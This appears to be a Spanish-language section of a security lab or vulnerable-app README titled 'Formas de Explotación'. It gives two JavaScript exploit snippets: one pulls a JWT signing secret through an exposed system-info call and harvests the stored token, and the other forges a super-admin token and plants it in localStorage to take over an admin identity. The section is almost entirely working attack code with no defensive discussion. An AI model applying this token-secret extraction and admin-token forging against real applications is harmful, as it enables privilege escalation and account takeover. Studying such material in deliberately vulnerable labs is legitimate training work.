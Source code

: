 ### 💥 **Formas de Explotación**

#### **Método 1: Extracción de JWT Secret**
```javascript
// 1. Obtener la secret del sistema
api.getSystemInfo().then(info => {
  console.log("🔑 JWT Secret obtenida:", info.secret_key);
  
  // 2. Analizar token actual
  const currentToken = localStorage.getItem('token');
  console.log("🎫 Token actual:", currentToken);
  
  // 3. Decodificar token actual
  const decoded = api.decodeCurrentToken();
  console.log("📋 Datos del token:", decoded);
  
  // Ahora tenemos todo lo necesario para forjar tokens
  (window as any).jwtExploitData = {
    secret: info.secret_key,
    currentToken,
    decodedToken: decoded
  };
}).catch(err => console.log("Error:", err.message));
```

#### **Método 2: Forjado de Token de Super-Admin**
```javascript
// Crear token completamente falso con privilegios máximos
const forgeAdminToken = () => {
  const fakeAdminData = {
    id: 9999,
    username: 'super_admin',
    email: 'superadmin@hacked.com',
    role: 'admin',
    created_at: new Date().toISOString(),
    profile: {
      fullName: 'Super Administrator (FORGED)',
      department: 'Security Breach',
      salary: 999999,
      phone: '+1-555-HACKED'
    }
  };
  
  console.log("🚨 FORGING SUPER ADMIN TOKEN...");
  
  // Usar la función expuesta del sistema
  const forgedToken = api.createFakeToken(fakeAdminData);
  
  console.log("✅ Token forjado creado:", forgedToken);
  
  // Reemplazar token y datos de usuario
  localStorage.setItem('token', forgedToken);
  localStorage.setItem('user', JSON.stringify(fakeAdminData));
  
  console.log("🎭 Identidad falsa establecida. Recarga la página.");
  console.log("🔓 Ahora tienes acceso administrativo completo con identidad forjada.");
  
  return forgedToken;
};

// Ejecutar forjado
forgeAdminToken();
```

